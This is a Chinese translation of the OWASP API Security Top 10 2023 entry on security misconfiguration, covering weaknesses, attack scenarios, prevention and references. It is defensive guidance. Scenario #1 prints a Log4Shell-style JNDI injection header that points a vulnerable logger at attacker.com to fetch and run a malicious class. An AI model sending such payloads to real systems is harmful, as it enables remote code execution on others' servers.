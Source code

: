 API7:2023 安全配置错误
===================================

| 威胁因素/攻击特征                                            | 安全弱点                                                     | 影响                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| API专用：可利用性**3**                                       | 普遍性**3**：可检测性**3**                                   | 技术**2**：业务相关                                          |
| 攻击者经常试图找到未修补的漏洞、常见的端点或未受保护的文件和目录，以获得对系统的未授权访问或了解。 | 安全配置错误可能发生在API栈的任何级别，从网络级别到应用程序级别。可以使用自动化工具检测和利用错误配置，例如不必要的服务或遗留选项。 | 安全配置错误不仅可以暴露敏感的用户数据，还可以暴露系统细节，导致完整的服务器妥协。 |

## API是否易受攻击？

如果满足以下情况，则API可能容易受攻击：

- 在API栈的任何部分缺少适当的安全加固或云服务权限配置不正确
- 缺少最新的安全补丁或系统已过期
- 启用了不必要的功能（例如HTTP动词、日志记录功能）
- HTTP服务器链中的服务器处理传入请求的方式存在差异
- 缺少传输层安全性（TLS）
- 未将安全或缓存控制指令发送给客户端
- 缺少或设置不正确的跨域资源共享（CORS）策略
- 错误消息包含堆栈跟踪或公开其他敏感信息

## 攻击场景举例

### 场景 #1

一个 API 后端服务器使用一个流行的第三方开源日志工具来维护访问日志，该工具支持占位符扩展和 JNDI（Java 命名和目录接口）查找，两者默认均已启用。对于每个请求，日志文件都会写入一个新的条目，格式如下：`<方法> <api版本>/<路径> - <状态码>`。

一个恶意的攻击者发出以下 API 请求，将其写入访问日志文件：

```
rubyCopy code
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

由于日志工具的不安全默认配置以及宽松的网络出站策略，在将 `X-Api-Version` 请求头中的值扩展时，日志工具将从攻击者的远程控制服务器中获取并执行 `Malicious.class` 对象，以便写入相应的访问日志条目。

### 场景 #2

一个社交网络网站提供了“直接消息”功能，允许用户进行私密对话。为了获取特定对话的新消息，网站发出以下 API 请求（不需要用户交互）：

```
sqlCopy code
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

由于 API 响应未包含 Cache-Control HTTP 响应头，私人对话最终会被 Web 浏览器缓存，从而允许恶意攻击者从文件系统中的浏览器缓存文件中检索它们。

## 如何预防

API的生命周期应该包括以下几个方面：

- 一个可重复的加固过程，以快速、轻松地部署一个适当加固的环境。
- 一个任务来审核和更新整个API堆栈的配置。审核应包括：编排文件，API组件和云服务（例如S3桶权限）。
- 一个自动化的过程，持续评估所有环境中配置和设置的有效性。

此外，还应注意以下几个方面：

- 确保客户端与API服务器和任何下游/上游组件之间的所有API通信都通过加密通信信道（TLS）进行，无论它是内部还是面向公众的API。
- 明确指定每个API可以由哪些HTTP动词访问：所有其他HTTP动词应该被禁用（例如HEAD）。
- 对于预计从基于浏览器的客户端（例如Web应用程序前端）访问的API，实现适当的跨源资源共享（CORS）策略。
- 确保HTTP服务器链中的所有服务器（例如负载均衡器，反向和正向代理以及后端服务器）以统一的方式处理传入的请求，以避免出现不同步问题。
- 在适用的情况下，定义和强制执行所有API响应有效负载模式，包括错误响应，以防止将异常跟踪和其他有价值的信息发送回攻击者。

## 参考资料

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
